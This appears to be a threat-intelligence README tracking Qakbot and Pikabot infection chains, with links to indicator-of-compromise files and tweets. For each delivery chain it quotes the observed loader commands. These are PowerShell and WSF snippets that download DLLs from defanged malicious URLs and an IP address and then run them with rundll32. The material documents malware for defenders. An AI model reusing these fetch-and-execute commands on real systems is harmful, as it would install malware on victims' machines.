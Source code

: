 IOC's
https://github.com/pr0xylife/Qakbot/blob/main/Qakbot_obama266_01.06.2023.txt

### BB19 - .html > url > .js > .ps > .dll


[#Pikabot](https://twitter.com/hashtag/Pikabot?src=hashtag_click) - [#Qakbot](https://twitter.com/hashtag/Qakbot?src=hashtag_click)- BB19 - .html > url > .js > .ps > .dll
https://twitter.com/pr0xylife/status/1636402413912354816



#Pikabot - #Qakbot- BB19 - .html > url > .js > .ps  > .dll

wscript.exe LL.js

$Mag = (https://hanika-inc.]com/mjnPR9/uo)

foreach ($washman in $Mag) {try {Invoke-WebRequest $washman -O $env:TEMP\Sulfuryl.dll

rundll32 $env:TEMP\Sulfuryl.dll,LS88

IOC's
https://github.com/pr0xylife/Qakbot/blob/main/Qakbot_BB19_Pikabot_16.03.2023.txt

### .pdf > .zip > .wsf > xmlhttp > .dll

[#Qakbot](https://twitter.com/hashtag/Qakbot?src=hashtag_click) - obama264 - .pdf > .zip > .wsf > xmlhttp > .dll
https://twitter.com/Cryptolaemus1/status/1661413082982170628


#Qakbot - obama264 - .pdf > .zip > .wsf > xmlhttp > .dll

wscript.exe Claim_C736.wsf

var u = "http://45.76.58.]72/a0UFMZnC6ltxphw.dat"
http://http.open("GET", u[i], false)

conhost.exe rundll32.exe C:\Users\Public\amLE5PKlGAXrhpU.dat,bind

IOC's
https://github.com/pr0xylife/Qakbot/blob/main/Qakbot_obama264_24.05.2023.txt



### .one > .iso > .chm > ps > .dll

[#Qakbot](https://twitter.com/hashtag/Qakbot?src=hashtag_click) - BB24 - .one > .iso > .chm > ps > .dll
https://twitter.com/Cryptolaemus1/status/1648632165742137344


#Qakbot - BB24 - .one > .iso > .chm > ps > .dll 

hh E:\README-JRN44.chm

powershell $sensillum = ("https://hotellosmirtos.]com/sjn/Tn0Q3nieE")

foreach ($form in $sensillum) {try {wget $form -O $env:TEMP\hexatetra

rundll32 $env:TEMP\hexatetra,Motd
